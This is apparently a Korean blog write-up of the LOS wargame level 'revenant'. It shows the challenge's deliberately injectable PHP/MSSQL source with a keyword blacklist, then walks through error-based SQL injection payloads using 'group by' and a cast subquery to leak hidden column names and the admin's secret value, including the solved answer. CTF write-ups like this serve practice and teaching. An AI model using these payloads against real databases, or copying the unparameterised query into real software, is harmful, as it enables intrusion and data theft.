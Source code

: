 ```yaml
---
title : "LOS Lv.42 revenant"
categories : [Wargame, rubiya]
tags: [group by로 컬럼명 알아내기]
---
```


## revenant
```php
query : select * from prob_revenant where id='' and pw=''

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect();
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select * from prob_revenant where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);
  if(sqlsrv_errors()) exit(mssql_error(sqlsrv_errors()));

  $query = "select * from prob_revenant where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['4'] === $_GET['pw']) solve("revenant"); // you have to pwn 5th column
  highlight_file(__FILE__);
?>
```

## Solution
```
5개의 column 중 id, pw만 아는 상황.
우리는 id=admin의 5번째 column의 값을 알아내야 함.

group by를 통해 알아낼 수 있음.
```
<a href="https://zulloper.tistory.com/6" target="_blank">https://zulloper.tistory.com/6</a>

```
"5. 현재 테이블 조회"를 보면 ' having 1=1 --%20을 했더니?

Column 'prob_revenant.id' is invalid ~~~

이런 에러가 뜨면서 컬럼명이 나타남.

?id=' group by id --%20 -> prob_revenant.pw is ~~

이런식으로 5번째 컬럼명을 알아내면 됨.

?id=' group by id,pw,"45a88487","13477a35" --%20

-> 5번째 컬럼명은 "9604b0c8"임을 확인!

-> mssql에서는 double quotes로 컬럼명과 문자열을 구분하나봄.
-> single quote로 하면 문자열로 들어가는 듯함.
```
```
따라서 5번째 컬럼의 값을 알아내면 다음과 같음.

?id=admin' and 1=(select "9604b0c8") --%20

-> aa68a4b3fb327dee07f868450f7e1183
```

## 에러 발생 이유
<a href="https://blog.limelee.xyz/entry/LOS-revenant?category=711778" target="_blank">https://blog.limelee.xyz/entry/LOS-revenant?category=711778</a>